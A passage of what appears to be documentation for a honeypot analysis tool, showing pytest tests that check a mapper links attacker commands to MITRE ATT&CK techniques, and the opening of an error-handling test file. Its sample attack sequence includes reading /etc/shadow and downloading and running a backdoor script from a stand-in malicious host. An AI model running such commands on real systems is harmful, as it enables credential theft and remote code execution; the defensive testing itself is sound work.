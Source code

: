 ```python

def test_ttp_mapper_identifies_credential_dumping():
    """Test TTP mapper identifies credential dumping."""
    mapper = TTPMapper()
    
    commands = ["cat /etc/shadow", "cat /etc/passwd"]
    ttps = mapper.map_ttps(commands, "credential_access")
    
    assert "T1003" in ttps  # OS Credential Dumping


def test_ttp_mapper_coverage_27_techniques():
    """Validate that mapper has 27+ MITRE techniques defined."""
    mapper = TTPMapper()
    
    assert len(mapper.TTP_PATTERNS) >= 27, "Should have at least 27 MITRE techniques"


# KPI Validation Test (Paper Requirement)
def test_kpi_ttp_coverage_meets_target():
    """
    KPI Test: Validate ≥10 unique TTPs identified.
    
    Paper Section 4: "Métricas de Validação para a Fase 1"
    Target: ≥10 técnicas MITRE ATT&CK únicas identificadas
    """
    mapper = TTPMapper()
    
    # Simulate realistic attack sequence
    commands = [
        "ssh root@10.0.0.1",
        "password: admin123",
        "uname -a",
        "whoami",
        "cat /etc/passwd",
        "ls -la /root",
        "wget http://malicious.com/backdoor.sh",
        "chmod +x backdoor.sh",
        "./backdoor.sh",
        "crontab -e"
    ]
    
    ttps = mapper.map_ttps(commands, "ssh_brute_force")
    
    # Should identify ≥10 unique techniques
    assert len(set(ttps)) >= 10, f"KPI FAILED: Only {len(set(ttps))} TTPs identified, need ≥10"
```

##### C. `test_error_handling.py`
```python
"""
Test suite for error handling.
Ensures robust error handling without silent failures.
"""
import pytest
from pathlib import Path
from backend.services.reactive_fabric_analysis.parsers import CowrieJSONParser


@pytest.mark.asyncio
async def test_parser_raises_on_nonexistent_file():
    """Test parser raises FileNotFoundError on missing file."""
    parser = CowrieJSONParser()
```